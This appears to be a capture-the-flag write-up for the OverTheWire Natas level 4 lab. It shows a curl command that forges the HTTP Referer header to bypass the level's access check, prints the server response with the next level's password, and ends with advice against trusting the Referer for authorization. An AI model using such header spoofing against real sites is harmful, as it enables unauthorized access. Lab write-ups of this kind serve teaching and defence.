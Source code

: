 ```yaml
---
category: natas
title: Natas4 - HTTP Referer
---
```

website: http://natas4.natas.labs.overthewire.org/ (password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ)

Go to the website and it says <small>Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"</small>. Click "Refresh page" link, now it says <small>visiting from "http://natas4.natas.labs.overthewire.org/"</small>. This info is related with HTTP headers in an HTTP request, particularly the HTTP `referer` field. This field indicates the last page the user was on. By checking this field, the new webpage can see where the request originated (i.e., where a user clicked the link).

According to the prompt <small>authorized users should come only from "http://natas5.natas.labs.overthewire.org/"</small>, I think of tampering the `referer` field in my HTTP request to make it look like from the mentioned URL.

To hijack a forged URL referer, I used the <em>curl</em> command tool. Here is how it looks like. As you can see, we now have the natas5's password in the response:
```console
bash-5.0$ curl http://natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ@natas4.natas.labs.overthewire.org/ --referer "http://natas5.natas.labs.overthewire.org/"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

<strong>CONCLUSION</strong>

Be careful if your website uses HTTP `referer` field for authentication or authorization. You cannot solely rely on such a field because an attacker can spoof it.

<strong>References</strong>

- https://en.wikipedia.org/wiki/HTTP_referer
- https://developer.mozilla.org/en-US/docs/Web/Security/Referer_header:_privacy_and_security_concerns
- cURL manual: https://curl.se/docs/manual.html
